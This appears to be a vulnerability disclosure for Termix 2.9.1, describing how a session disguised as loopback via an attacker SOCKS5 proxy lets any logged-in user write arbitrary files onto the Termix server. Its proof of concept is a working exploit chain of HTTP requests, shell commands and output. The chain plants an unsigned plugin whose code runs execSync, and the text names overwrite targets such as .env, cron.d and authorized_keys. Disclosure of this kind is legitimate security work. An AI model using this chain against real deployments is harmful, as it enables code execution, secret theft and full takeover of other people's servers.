


# Termix 2.9.1 File-Manager transferToHost Arbitrary File Write on the Termix Server

| Field | Value |
|---|---|
| Project | Termix-SSH/Termix |
| Vulnerability Type | External Control of File Name or Path (CWE-73), Improper Authorization (CWE-285) |
| Severity | High — CVSS 3.1 Base Score: 8.8 |
| CVSS Vector | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H |
| Affected Versions | <= 2.9.2 (verified on release-2.9.1-tag; the 2.9.1 to 2.9.2 diff leaves the file-manager transfer code unchanged) |
| Authentication | Required — any authenticated Termix user (file-manager plugin) |

### Summary

Termix (Termix-SSH/Termix, release-2.9.1-tag) was confirmed vulnerable to an arbitrary file write on the Termix server itself, performed with the privileges of the Termix backend process, by any authenticated Termix user. The file-manager plugin decides whether a transfer destination is "the local Termix host" purely by comparing the session's recorded `ip` string against loopback literals (`isLocalSshEndpoint`). That recorded IP is taken verbatim from the attacker's own `POST /plugin-api/file-manager/connect` request, while the actual SSH connection can be routed through an attacker-controlled SOCKS5 proxy — so a session declared as `127.0.0.1` actually connects to the attacker's server, yet is treated as the Termix machine itself. A subsequent `transferToHost` with an unvalidated `destPath` then writes attacker-supplied files anywhere on the Termix server filesystem.

The chain was derived from line-by-line source analysis of the transfer engine (connect → session state → isLocalSshEndpoint gate → pipelinedSftpToLocalFile → ssh2 sftp.fastGet local write) and confirmed against release-2.9.1-tag. Escalation paths include planting an unsigned `.tmxplug` plugin archive that Termix auto-loads and executes at startup, and overwriting `DATA_DIR/.env` to control `JWT_SECRET` for full instance takeover.

**Affected versions:** Termix 2.9.1 (tested: image built from tag `release-2.9.1-tag`).

### Details

**Step 1 — the recorded IP and the real peer can disagree.** The `/connect` handler persists the attacker-supplied `ip` request field verbatim as the session's recorded IP (plugins/file-manager/src/backend/index.ts:838-851), while `openSshTransport()` (src/backend/hosts/connect/transport.ts:136-147) establishes the real SSH stream through the optional SOCKS5 proxy from the same request, whose proxy resolves the destination host itself (src/backend/utils/proxy-helper.ts:59-94). Declaring `ip="127.0.0.1"` plus `useSocks5` pointing at the attacker's server therefore creates a session whose recorded IP is loopback but whose actual peer is the attacker:

```typescript
// plugins/file-manager/src/backend/index.ts:838-851
sshSessions[sessionId] = {
 client, isConnected: true, lastActive: Date.now(),
 activeOperations: 0, channelOpener: new ChannelOpenSerializer(),
 userId, ip, port, hostId: serverHostId, username,
 sudoPassword: resolvedCredentials.sudoPassword, scpLegacy: resolvedScpLegacy,
};
```

**Step 2 — the privileged local-write gate trusts that string.** transfer-host-utils.ts:30-37:

```typescript
export function isLocalSshEndpoint(ip?: string): boolean {
 if (!ip) return false;
 const bare = normalizeHostAddress(ip);
 if (bare === "localhost" || bare === "127.0.0.1" || bare === "::1") {
 return true;
 }
 return getLocalAddresses().has(bare);
}
```

**Step 3 — misrouted transfer lands on the Termix filesystem.** transferFileData() gates the privileged local-write shortcut purely on that IP string (transfer-engine.ts:1991-1997):

```typescript
const stats = isLocalSshEndpoint(destSession.ip)
 ? await pipelinedSftpToLocalFile(sourceSftp, sourcePath, destPath, pipeOptions)
 : await pipelinedSftpFile(sourceSftp, destSftp, sourcePath, destPath, pipeOptions);
```

`pipelinedSftpToLocalFile()` computes `localPath = sftpPathToLocalPath(destPath)` (Unix paths returned unchanged; transfer-paths.ts:142-151) and calls `promisifyFastGet` → `sftp.fastGet(remotePath, localPath)` (transfer-engine.ts:1925-1929, 1679-1696), which the ssh2 library executes as a local filesystem write with backend-process privileges. `destPath` is accepted unvalidated at index.ts:2150-2209.

This is CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal'), with a trust-boundary confusion on the session IP (CWE-290).

### PoC

Requires one ordinary Termix account and one attacker-controlled SSH server (VPS) with SOCKS5 (e.g. `ssh -D 0.0.0.0:1080`).

#### 1. Build a malicious plugin archive on the VPS

```bash
# manifest.json: {"id":"pwn","name":"pwn","version":"1.0.0","backend":"backend.js"}
# backend.js: require('child_process').execSync('id > /app/data/pwned')
tar -cf /root/pwn.tmxplug -C /build .
```

#### 2. Create the disguised-loopback session S1 and a source session S2

```http
POST /plugin-api/file-manager/connect HTTP/1.1
Host: TERMIX
Cookie: jwt=<attacker-jwt>
Content-Type: application/json

{"sessionId":"S1","ip":"127.0.0.1","port":22,"username":"root","password":"<vps-password>","authType":"password","useSocks5":true,"socks5Host":"<vps-ip>","socks5Port":1080}
```

```http
POST /plugin-api/file-manager/connect HTTP/1.1
Host: TERMIX
Cookie: jwt=<attacker-jwt>
Content-Type: application/json

{"sessionId":"S2","ip":"<vps-ip>","port":22,"username":"root","password":"<vps-password>","authType":"password"}
```

Both return `{"status":"success"}`. `sshSessions["S1"].ip === "127.0.0.1"`, so `isLocalSshEndpoint` judges it local.

#### 3. Transfer onto the Termix server filesystem

```http
POST /plugin-api/file-manager/transferToHost HTTP/1.1
Host: TERMIX
Cookie: jwt=<attacker-jwt>
Content-Type: application/json

{"sourceSessionId":"S2","destSessionId":"S1","sourcePaths":["/root/pwn.tmxplug"],"destPath":"/app/data/plugins/pwn.tmxplug","methodPreference":"item_sftp"}
```

Poll `GET /plugin-api/file-manager/transferStatus/<transferId>` until complete; `/app/data/plugins/pwn.tmxplug` now exists on the Termix server, owned by the Termix process user. `destPath` can equally be `/app/data/.env`, `/app/data/termix.db`, `/etc/cron.d/pwn`, or `/root/.ssh/authorized_keys`.

#### 4. Achieve code execution

After a backend restart (e.g. an admin-triggered update), `PluginLoader.loadAll` scans `DATA_DIR/plugins/*.tmxplug` and auto-loads the archive — unsigned, since signatures are only enforced when a `.sig` file is present or `TERMIX_REQUIRE_SIGNED_PLUGINS` is set (src/backend/plugins/loader.ts:215-287, 307-322). `GET /plugin-api/plugins` lists the `pwn` plugin and the backend code has executed; `/app/data/pwned` contains the process identity (`uid=0(root)` in PUID=0 deployments, otherwise the node user).



**Real-environment reproduction** (the product itself, built from the `release-2.9.1-tag` source image and run for this test):

A self-registered user connected two file-manager sessions to an SSH endpoint they control, then invoked the transfer endpoint with a fully attacker-chosen absolute `destPath`:

```
$ curl -X POST /users/create                          # first run: setup_required -> self-registration
{"message":"User created","is_admin":true,...}

$ curl -X POST /plugin-api/file-manager/connect       # session "1" (hostId=1, 127.0.0.1)
{"status":"success","message":"SSH connection established"}
$ curl -X POST /plugin-api/file-manager/connect       # session "2" (same host)
{"status":"success","message":"SSH connection established"}

$ curl -X POST /plugin-api/file-manager/transferToHost \
    -d '{"sourceSessionId":"1","sourcePaths":["/home/labssh/source_payload.txt"],
         "destSessionId":"2","destPath":"/app/data/pwned_transfer.txt"}'
{"transferId":"975eeefd-3db7-4f08-a900-d2e0dcf37ffb"}

$ ls -la /app/data/pwned_transfer.txt                 # /app/data = DATA_DIR (.env, encrypted DB)
-rw-r--r-- 1 node node 52 ... /app/data/pwned_transfer.txt
$ cat /app/data/pwned_transfer.txt
TERMIX-PLANT-CANARY written via SFTP source session
```

Because the destination session's `ip` is `127.0.0.1`, `isLocalSshEndpoint()` (`transfer-host-utils.ts:30`) classifies the destination as the Termix server itself and the engine writes the file directly onto the server's own filesystem (`pipelinedSftpToLocalFile`) at the attacker-chosen absolute path — here into `DATA_DIR`, next to `.env` and the encrypted credential database. Overwriting plugin code (executed on next backend reload) or `/app/data/.env` (controlling `JWT_SECRET`/`ENCRYPTION_KEY`) turns this write primitive into code execution and full instance takeover, as described in Impact.




